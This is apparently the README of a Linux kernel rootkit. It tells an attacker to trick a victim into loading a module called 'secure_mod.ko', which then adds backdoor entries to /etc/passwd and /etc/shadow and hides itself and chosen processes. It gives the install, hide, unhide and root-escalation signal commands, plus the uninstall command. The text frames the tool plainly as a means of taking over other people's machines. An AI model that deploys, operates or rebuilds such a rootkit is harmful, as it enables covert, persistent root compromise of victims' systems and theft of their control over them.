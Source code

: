 #Linux Rootkit
###Attacker should first trap victim into installing the rootkit by "sudo insmod secure_mod.ko". After that, the rootkit will add a backdoor for attacker by insert a line in both /etc/passwd and /etc/shadow. Then the attacker could login to victim's linux machine and get root priviledge to do some evil things. The rootkit will also hide itself and can hide a process by its pid.
#Usage
- <h3>Install</h3>
<h4>`sudo insmod secure_mod.ko`
- <h3>Hide/Unhide a Process</h3>
<h4>```
        kill -62 pid
```
- <h3>Hide/Unhide rootkit</h3>
<h4>```
        kill -63 0
```
- <h3>Get Root Priviledge</h3>
<h4>```
        kill -64 0
```
- <h3>Uninstall</h3>
<h4>First unhide the rootkit by signal 63 then remove it by```
        sudo rmmod secure_mod
```  